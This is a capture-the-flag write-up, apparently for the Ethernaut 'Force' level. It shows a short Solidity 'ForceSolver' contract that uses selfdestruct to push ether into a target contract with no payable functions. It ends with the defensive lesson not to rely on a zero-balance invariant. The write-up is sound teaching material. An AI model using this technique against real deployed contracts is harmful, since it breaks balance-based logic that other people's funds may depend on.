 ## Force
Some contracts will simply not take your money ¯\_(ツ)_/¯
The goal of this level is to make the balance of the contract greater than zero.

##### Things that might help
Fallback methods
Sometimes the best way to attack a contract is with another contract.

#### Understanding the contract
This challenge contract does not have any variables or functions... or goal is simply to force the contract to take ether

#### Solving
This challenge can be solved using the [selfdestruct](https://solidity-by-example.org/hacks/self-destruct/) method
Using a second contract, we can force eth onto the challenge contract using the ``selfdestruct`` method
```js
// SPDX-License-Identifier: MIT
pragma solidity 0.8.4;

contract ForceSolver {

constructor (address payable target) payable {
        require(msg.value > 0);
        selfdestruct(target);
    }

}
```
When deploying this contract, use the challenge contract address as an argument for the constructor.
Send an amount in wei when deploying the contract
After the contract is deployed, running ``await web3.eth.getBalance('CONTRACT ADDRESS')`` should so a balance for the contract reflecting the amount of wei that was sent when the solver contract was deployed

#### Summary
In solidity, for a contract to be able to receive ether, the fallback function must be marked ``payable``.

However, there is no way to stop an attacker from sending ether to a contract by self destroying. Hence, it is important not to count on the invariant ``address(this).balance == 0`` for any contract logic.